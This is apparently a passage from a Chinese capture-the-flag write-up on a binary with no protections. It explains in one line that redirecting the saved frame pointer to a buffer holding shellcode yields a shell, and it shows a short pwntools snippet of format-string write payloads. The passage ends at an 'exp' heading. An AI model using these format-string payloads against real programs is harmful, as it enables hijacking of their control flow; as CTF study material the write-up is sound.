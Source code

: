 [![](assets/1701612457-7ba81bab79c12667ccafd0a823b0aaf9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230623214751-8bfe5d18-11cc-1.png)  
什么保护都没开，直接把prev\_ebp改为buf的地址，然后在buf内写入shellcode，就getshell了

[![](assets/1701612457-31e805b4463fa5316885a5e0f3d3d75d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230623214759-91062a02-11cc-1.png)

```plain
pl = b'%' + str(stack_addr & 0xff).encode() + b'c%6$hhn' 
pl = pl.ljust(200,b'\x00')
s(pl)
p.recv()
#duan()

pl = b'%' + str(0xa064).encode() + b'c%10$hn' 
pl = pl.ljust(200, b'\x00')
s(pl)
p.recv()
```

## exp
